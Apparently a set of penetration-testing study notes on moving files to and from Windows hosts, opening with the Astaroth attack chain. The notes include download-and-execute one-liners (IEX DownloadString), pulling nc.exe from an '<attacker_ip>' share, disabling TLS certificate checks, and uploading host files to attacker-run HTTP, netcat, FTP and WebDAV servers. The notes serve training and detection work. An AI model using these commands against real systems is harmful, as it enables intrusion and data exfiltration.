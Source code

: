 # 🪟 Windows File Transfer Methods

## Introduction

The Windows OS has evolved to include various built-in utilities for file transfer.  
Understanding these methods benefits both **attackers** (for stealth operations) and **defenders** (for detection and policy creation).

### Example: Microsoft Astaroth Attack (APT)
1. **Initial Access:** Spear-phishing email with malicious `.lnk` file.  
2. **Execution:** `.lnk` triggers `WMIC /Format` → downloads malicious JavaScript.  
3. **Payload Retrieval:** JavaScript abuses `Bitsadmin` to download base64 payloads.  
4. **Decoding & Loading:** `Certutil` decodes → `regsvr32` loads DLLs.  
5. **Injection:** Final payload (Astaroth) injected into `Userinit`.

> 🧠 Demonstrates multiple native Windows tools chained together to evade detection.

---

## Download Operations

### 1. PowerShell Base64 Encode/Decode

**Scenario:** Transfer small files (no network traffic).

**Steps (Linux → Windows):**
```bash
# On Pwnbox (Linux)
md5sum id_rsa
cat id_rsa | base64 -w 0; echo
```

```powershell
# On Windows (Decode)
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("<b64string>"))
Get-FileHash C:\Users\Public\id_rsa -Algorithm MD5
```

> ⚠️ Limitation: `cmd.exe` max string length = **8191 chars**.

---

### 2. PowerShell Web Downloads

Most orgs allow **HTTP/HTTPS**, making them ideal for file transfers.

#### Common Methods (via `System.Net.WebClient`)
| Method | Description |
|--------|--------------|
| `OpenRead` | Returns data as stream |
| `DownloadFile` | Saves file locally |
| `DownloadString` | Returns string (useful for fileless ops) |
| Async versions | Don’t block execution |

**Examples:**
```powershell
# Download to disk
(New-Object Net.WebClient).DownloadFile('https://url/file.ps1','C:\path\file.ps1')

# Fileless execution
IEX (New-Object Net.WebClient).DownloadString('https://url/script.ps1')
```

**Alternative Cmdlet:**
```powershell
Invoke-WebRequest https://url/script.ps1 -OutFile script.ps1
```

> 💡 Aliases: `iwr`, `curl`, `wget`

#### Common Errors
- **IE parsing error:** use `-UseBasicParsing`
- **SSL/TLS trust issues:**
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  ```

---

### 3. SMB Downloads

Use **Impacket’s `smbserver.py`** to host files:
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

**Download from Windows:**
```cmd
copy \\<attacker_ip>\share\nc.exe
```

**If guest access is blocked:**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
net use n: \\<ip>\share /user:test test
copy n:\nc.exe
```

---

### 4. FTP Downloads

**Setup FTP Server (Python):**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

**PowerShell download:**
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt','C:\file.txt')
```

**Non-interactive download (cmd):**
```cmd
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

---

## Upload Operations

### 1. PowerShell Base64 Encode

```powershell
[Convert]::ToBase64String((Get-Content -Path "C:\Windows\System32\drivers\etc\hosts" -Encoding byte))
Get-FileHash "C:\Windows\System32\drivers\etc\hosts" -Algorithm MD5
```

**Decode on Linux:**
```bash
echo "<base64>" | base64 -d > hosts
md5sum hosts
```

---

### 2. PowerShell Web Upload

**Install upload-enabled server (Python):**
```bash
pip3 install uploadserver
python3 -m uploadserver
# Uploads available at http://<ip>:8000/upload
```

**PowerShell upload script:**
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<ip>:8000/upload -File C:\path\file.txt
```

---

### 3. PowerShell Base64 Web Upload (POST + Netcat)

```powershell
$b64 = [Convert]::ToBase64String((Get-Content 'C:\file.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```

**Catch and decode:**
```bash
nc -lvnp 8000
echo "<b64>" | base64 -d > file.txt
```

---

### 4. SMB Uploads (via WebDAV)

If SMB (TCP/445) blocked → use **WebDAV (HTTP/80 or HTTPS/443)**.

**Install server:**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

**Connect from Windows:**
```cmd
dir \\<ip>\DavWWWRoot
copy C:\file.zip \\<ip>\DavWWWRoot\
```

> `DavWWWRoot` is a Windows keyword for WebDAV root path.

---

### 5. FTP Uploads

**Start write-enabled FTP Server:**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**PowerShell Upload:**
```powershell
(New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts','C:\path\hosts')
```

**Non-interactive Upload:**
```cmd
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\path\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

---

## Recap

| Method | Direction | Protocol | Notes |
|--------|------------|-----------|-------|
| Base64 Encode/Decode | Upload & Download | None | Useful for small files |
| PowerShell Web (HTTP/S) | Both | 80/443 | File or fileless ops |
| SMB | Both | 445 | May require authentication |
| FTP | Both | 21/20 | Simple; may need scripting |
| WebDAV | Both | 80/443 | SMB alternative via HTTP |

---

## Next Steps / Options

- Add **collapsible code blocks** for GitHub/Obsidian compatibility.
- Add **syntax highlighting** in code blocks where helpful.
- Produce an **HTML** or **PDF** export for printing or sharing.

If you want any of the above, tell me which format and I’ll export it.

---
